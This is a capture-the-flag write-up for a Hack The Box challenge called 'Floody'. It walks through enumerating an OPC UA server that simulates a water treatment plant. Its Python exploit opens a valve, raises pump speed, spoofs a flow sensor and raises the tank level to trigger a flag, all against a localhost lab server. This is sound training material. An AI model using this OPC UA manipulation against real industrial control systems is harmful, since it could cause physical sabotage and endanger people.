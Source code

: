 ![img](../../assets/banner.png)

<img src='../../assets/htb.png' style='zoom: 80%;' align=left /> <font size='10'>Floody</font>

19<sup>th</sup> April 2025

Prepared By: `r3dsh3rl0ck`

Challenge Author(s): `r3dsh3rl0ck`

Difficulty: <font color='green'>Easy</font>

<br><br><br><br><br><br>

# Synopsis (!)

- Understanding OPC UA protocol basics
- Enumerating OPC UA server nodes
- Manipulating industrial control system (ICS) variables
- Executing a sequential attack chain

## Description (!)

- Task Force Phoenix has identified a flaw in a water treatment plant supplying Volnaya’s government command center. Sabotage the facility to flood the complex and disrupt Operation Blackout by executing this sequence: 
    - Set the inlet valve to 100% open 
    - Increase pump speed to 1600 RPM
    - Spoof the flow sensor to 4 L/s
    - Raise the tank water level to 5m. 


## Skills Required (!)

- Basic knowledge of OPC UA client operations
- Familiarity with Python and the opcua library
- Understanding of ICS concepts (e.g., valves, pumps, sensors)
- Logical deduction for sequencing operations

## Skills Learned (!)

- Browsing OPC UA server nodes
- Reading and writing OPC UA variables
- Crafting an exploit for ICS sabotage
- Handling trial-and-error in attack chain sequencing

# Solution (!)

## Approaching the OPC UA Server

We’re tasked with exploiting an OPC UA server, controlling a water treatment plant. The server interface provides the following interface.

![alt text](assets/server.png)

This output reveals:

The server is OPC UA, managing a water treatment plant under the main control object `2:WaterTreatmentPlant` in namespace 2.

It monitors Tank Level (meters), Pressure (bar), and Flow (liters/second), updating every ~3 seconds.

Without server code, we must enumerate nodes under `2:WaterTreatmentPlant` to identify controls and execute the attack. 

In OPC UA, nodes are organized hierarchically:

- Nodes represent objects (e.g., a pump), variables (e.g., speed), or other data.
- Objects group related nodes, like a folder.
- Variables hold readable/writable values (e.g., water level).
- Namespaces separate standard (namespace 0) and custom nodes (namespace 2 for the plant).

The root node is the hierarchy’s top, with `0:Objects` containing custom objects like `2:WaterTreatmentPlant`. The provided namespace simplifies navigation, pointing us directly to the plant’s controls.

## Enumerating Nodes

Using the `python-opcua` library, we connect to the server and enumerate nodes under 2:WaterTreatmentPlant, ash shown below

```python
nodes = {}
    for node in plant.get_children():
        node_name = node.get_browse_name().Name
        print(f"{node_name}:")
        for child in node.get_children():
            child_name = child.get_browse_name().Name
            try:
                value = child.get_value()
                print(f"  {child_name}: {value}")
                nodes[f"{node_name}/{child_name}"] = child
            except:
                pass
```

The result is shown below:

![alt text](assets/client-enum.png)

- Pump: Status (On/Off), Speed (RPM, likely pump control).
- Tank: WaterLevel (meters, matches Tank Level), Volume (liters).
- Valve: Status (Open/Closed), PercentOpen (0-100%, flow control).
- Sensors: Pressure (bar), FlowRate (L/s, matches Flow).
- Maintenance: SecretLog ("Null").

## Deducing the Attack Plan

The scenario specifies:

- Set Valve/PercentOpen to 100.0.
- Set Pump/Speed to 1600.0.
- Set Sensors/FlowRate to 4.0.
- Set Tank/WaterLevel to 5.0.

Out-of-order writes trigger server shutdowns, as seen in trial runs `Error: Unauthorized - Valve must be fully open`.

![alt text](assets/order-error.png)



## Executing the Exploit

The exploit connects to the server, lists all nodes and their values under 2:WaterTreatmentPlant, sets the values in the specified order with confirmation messages, and reads the flag from the maintenance log.

```python
from opcua import Client
import time

url = "opc.tcp://127.0.0.1:4840"
client = Client(url)
try:
    client.connect()
    plant = client.get_root_node().get_child(["0:Objects", "2:WaterTreatmentPlant"])
    
    nodes = {}
    for node in plant.get_children():
        node_name = node.get_browse_name().Name
        print(f"{node_name}:")
        for child in node.get_children():
            child_name = child.get_browse_name().Name
            try:
                value = child.get_value()
                print(f"  {child_name}: {value}")
                nodes[f"{node_name}/{child_name}"] = child
            except:
                pass
    
    for key, value in [
        ("Valve/PercentOpen", 100.0),
        ("Pump/Speed", 1600.0),
        ("Sensors/FlowRate", 4.0),
        ("Tank/WaterLevel", 5.0)
    ]:
        node = nodes.get(key)
        if node:
            node.set_value(value)
            print(f"[+] Set {key} to {value}")
            time.sleep(3)
    
    flag_node = nodes.get("Maintenance/SecretLog")
    if flag_node:
        print(flag_node.get_value())
        
except Exception:
    pass
finally:
    client.disconnect()
```
With the help of our exploit we set the values as the plan requires 

![](assets/correct-values-write.png)

After setting the correct values the response of the server inform us that the maintenace log is updated. 

![alt text](assets/server-response.png)

Finally, we read the maintenace object. 
